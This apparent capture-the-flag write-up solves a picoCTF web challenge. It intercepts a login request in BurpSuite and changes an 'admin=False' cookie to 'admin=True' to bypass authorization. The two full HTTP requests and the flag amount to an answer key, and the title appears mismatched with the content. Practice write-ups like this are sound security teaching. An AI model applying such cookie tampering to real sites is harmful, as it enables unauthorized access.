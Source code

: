 # Some Assembly Required 1

Description: The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? 
Category: Web Exploitation, 100 points
Original Event: picoCTF 2019

## Solution

We are given a link to a website featuring a typical username and password field. In the problem's description, we are given the username Joe. trying this with no password yields a red box stating: "I'm sorry Joe's password is super secure. You're not getting in that way.".
However, the site appears to not check passwords for any user other than 'Joe', as logging in with any other username and no password allows us access to the site, yielding a green box stating: "Success: You logged in! Not sure you'll be able to see the flag though.", and a gray box stating "No flag for you".

Examining the HTTP-History using BurpSuite's Proxy function allows us to see our login request:
```http
GET /problem/15796/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=; username=ratticus; admin=False
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://jupiter.challenges.picoctf.org/problem/15796/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

While the username and password cookies are predictable, there is a third cookie, "admin=False".
We can send this login request to BurpSuite's Repeater and flip the admin field to true.

```http
GET /problem/15796/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=; username=ratticus; admin=True
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://jupiter.challenges.picoctf.org/problem/15796/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
When we forward this request, we are faced with the same page as before, now with the green box gone, and the gray box displaying the flag.

### Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}



